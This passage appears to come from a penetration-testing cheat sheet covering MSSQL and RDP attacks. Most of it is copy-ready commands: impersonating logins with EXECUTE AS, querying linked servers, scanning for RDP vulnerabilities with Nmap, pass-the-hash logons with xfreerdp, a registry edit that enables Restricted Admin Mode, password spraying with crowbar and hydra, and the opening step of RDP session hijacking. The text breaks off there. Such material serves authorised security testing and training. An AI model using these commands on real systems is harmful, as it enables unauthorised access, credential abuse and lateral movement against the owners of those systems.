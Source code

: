 Impersonating a user:
```shell
EXECUTE AS LOGIN = '<user>'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

**Communicating with Other Databases**
In MSSQL, there's a configuration option called [linked servers](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine). They enable the database to execute a Transact-SQL statement that includes tables from another instance.

Identifying linked servers:
```shell
SELECT srvname, isremote FROM sysservers
```

Accessing a linked table:
```shell
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<server name>]
```
# RDP
**Nmap**
```shell
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

**Connecting to the Service**
```shell
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<NTLM hash> /v:<IP> #Pass the hash
```

Note for Pass the Hash, we'll need to enabled `Restricted Admin Mode` to allow admin logon through RDP:
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

**Password Spraying**
```shell
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

# hydra
hydra -L usernames.txt -p 'password123' <IP> rdp
```

**Session Stealing**
With SYSTEM permissions, you can access any opened RDP session by any user without a password.

First, we'll need to get open sessions:
```shell
query user
```
